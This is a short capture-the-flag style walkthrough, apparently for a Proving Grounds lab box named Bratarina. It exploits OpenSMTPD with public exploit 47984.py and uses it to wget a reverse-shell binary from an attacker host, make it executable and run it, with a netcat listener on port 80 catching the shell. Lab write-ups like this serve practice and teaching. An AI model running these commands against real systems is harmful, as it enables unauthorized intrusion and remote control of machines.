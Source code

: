 # 🏴 Bratarina (Linux)

## 🧠 Initial Foothold

- Identified port 25 open, running **OpenSMTPD**.

- Used Searchsploit to find vulnerabilities and selected exploit `47984.py`.

- Uploaded a reverse shell payload to `/tmp` with:
  ```bash
  python3 47984.py 192.168.102.71 25 "wget 192.168.45.229/revshell.elf -O /tmp/revshell.elf"
  python3 47984.py 192.168.102.71 25 "chmod +x /tmp/revshell.elf"
  python3 47984.py 192.168.102.71 25 "/tmp/revshell.elf"
  ```

- 🔥 **Important:** The reverse shell must connect back on **port 80** (other ports did not work).

- Started a listener with:
  ```bash
  nc -nlvp 80
  ```

- Successfully received a shell.

---

## 🚀 Privilege Escalation

- 🟢 **No further privilege escalation was required**, as the shell provided sufficient access.

---

📚 **Reference Walkthrough:**  
[github.com/thevillagehacker](https://github.com/thevillagehacker/Proving_Grounds/blob/main/Writeups/2023-10-05-Proving_grounds_Practice-Bratarina.md)

> ⚠️ This walkthrough is for educational purposes only.
